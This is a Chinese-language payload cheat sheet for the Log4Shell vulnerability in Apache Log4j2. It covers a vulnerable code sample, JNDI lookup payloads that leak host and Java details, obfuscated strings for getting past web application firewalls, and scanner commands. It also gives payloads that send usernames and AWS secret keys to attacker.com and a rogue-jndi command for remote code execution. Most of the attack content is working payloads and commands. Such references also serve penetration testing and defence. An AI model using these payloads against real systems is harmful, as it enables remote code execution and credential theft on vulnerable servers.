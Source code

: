 # CVE-2021-44228 Log4Shell

> Apache Log4j2 <=2.14.1 在配置、日志消息和参数中使用的 JNDI 功能没有保护针对攻击者控制的 LDAP 和其他 JNDI 相关端点。当启用消息查找替换时，能够控制日志消息或日志消息参数的攻击者可以在 LDAP 服务器上加载并执行任意代码。

## 概述

* [漏洞代码](#漏洞代码)
* [有效载荷](#有效载荷)
* [扫描](#扫描)
* [WAF 绕过](#waf绕过)
* [利用](#利用)
    * [环境变量窃取](#环境变量窃取)
    * [远程命令执行](#远程命令执行)
* [参考](#参考)

## 漏洞代码

你可以通过以下方式在本地重现：`docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app` 使用 [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) 或 [leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)

```java
public String index(@RequestHeader("X-Api-Version") String apiVersion) {
    logger.info("Received a request for API version " + apiVersion);
    return "Hello, world!";
}
```

## 有效载荷

```bash
# 标识 Java 版本和主机名
${jndi:ldap://${java:version}.domain/a}
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:dns://${hostName}.domain}

# 更多枚举关键字和变量
java:os
docker:containerId
web:rootDir
bundle:config:db.password
```

## 扫描

* [log4j-scan](https://github.com/fullhunt/log4j-scan)

    ```powershell
    usage: log4j-scan.py [-h] [-u URL] [-l USEDLIST] [--request-type REQUEST_TYPE] [--headers-file HEADERS_FILE] [--run-all-tests] [--exclude-user-agent-fuzzing]
                        [--wait-time WAIT_TIME] [--waf-bypass] [--dns-callback-provider DNS_CALLBACK_PROVIDER] [--custom-dns-callback-host CUSTOM_DNS_CALLBACK_HOST]
    python3 log4j-scan.py -u http://127.0.0.1:8081 --run-all-test
    python3 log4j-scan.py -u http://127.0.0.1:808 --waf-bypass
    ```

* [Nuclei 模板](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/cves/2021/CVE-2021-44228.yaml)

## WAF 绕过

```powershell
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/a}

# 使用大小写组合
${${lower:jndi}:${lower:rmi}://127.0.0.1:1389/poc}
${j${loWer:Nd}i${uPper::}://127.0.0.1:1389/poc}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}

# 使用环境变量拼接字母
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```

## 利用

### 环境变量窃取

```powershell
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/

# AWS 访问密钥
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}
```

### 远程命令执行

* [rogue-jndi - @artsploit](https://github.com/artsploit/rogue-jndi)

    ```ps1
    java -jar target/RogueJndi-1.1.jar --command "touch /tmp/toto" --hostname "192.168.1.21"
    Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
    Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
    Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
    Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
    Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
    Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
    Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
    Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
    ```

* [JNDI-Exploit-Kit - @pimps](https://github.com/pimps/JNDI-Exploit-Kit)

## 参考

* [Log4Shell: 日志库 log4j 2 中发现的 RCE 0-day 漏洞 - 2021 年 12 月 12 日](https://www.lunasec.io/docs/blog/log4j-zero-day/)
* [Log4Shell 更新：第二个 log4j 漏洞发布 (CVE-2021-44228 + CVE-2021-45046) - 2021 年 12 月 14 日](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)
* [PSA: Log4Shell 和当前的 JNDI 注入状态 - 2021 年 12 月 10 日](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/)